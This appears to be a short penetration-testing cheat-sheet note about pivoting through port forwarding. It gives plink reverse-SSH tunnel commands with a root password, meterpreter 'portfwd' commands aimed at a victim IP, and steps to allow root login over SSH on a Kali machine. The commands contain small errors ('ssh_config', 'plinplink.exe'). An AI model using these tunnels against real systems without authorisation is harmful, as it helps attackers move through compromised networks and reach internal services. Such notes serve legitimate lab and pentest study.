 
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
Need a listen/listening port

```
# Port forward using plink
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R [listening port]:127.0.0.1:[listening port]
```

```
# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

# How to Use

Need ssh server on kali
```
apt install ssh
```
change ssh_config file to allow 'PermitRootlogin yes'
![[Pasted image 20241010225741.png]]
```
service ssh restart
```

```
service ssh start
```

run plink on host machine
```
plinplink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

**May have to hit ENTER a bunch of times for command to go through

can use [[winexe]] to send commands
